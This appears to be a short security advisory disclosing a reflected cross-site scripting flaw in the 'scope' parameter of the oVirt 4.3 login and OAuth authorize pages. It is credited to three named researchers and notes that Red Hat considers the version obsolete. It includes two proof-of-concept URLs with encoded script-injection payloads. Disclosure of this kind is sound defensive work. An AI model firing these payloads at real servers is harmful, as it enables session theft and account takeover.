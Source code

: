 # oVirt-4.3-Reflected-Cross-Site-Scripting

Summary: oVirt-engine Open Virtualization Manager version 4.3 login page is vulnerable to reflected Cross-site scripting (XSS).  The parameter "scope" fails to sanitize the entry, allowing the malicious script to execute as part of the GET request.

Affected Parameter: scope 

Sample urls:
https://x.x.x.x/ovirt-engine/login?scope=ovirt-ext%3dauth%3aidentityxj2o4%3cscript%3ealert('1')%3c%2fscript%3eol2fb

https://x.x.x.x/ovirt-engine/sso/oauth/authorize?client_id=ovirt-engine-core&response_type=code&redirect_uri=https%3A%2F%2Fx.x.x.x%3A443%2Fovirt-engine%2Foauth2-callback&scope=z9wcq%3cscript%3ealert('XSS')%3c%2fscript%3ep4zq5&locale=en_US&source_addr=x.x.x.x

Screenshot:


Response from RedHat:<
oVirt 4.3 is an obsolete version 

Authors: 
Patrick Dean Ramos
Nathu Nandwani
Junnair Manla 
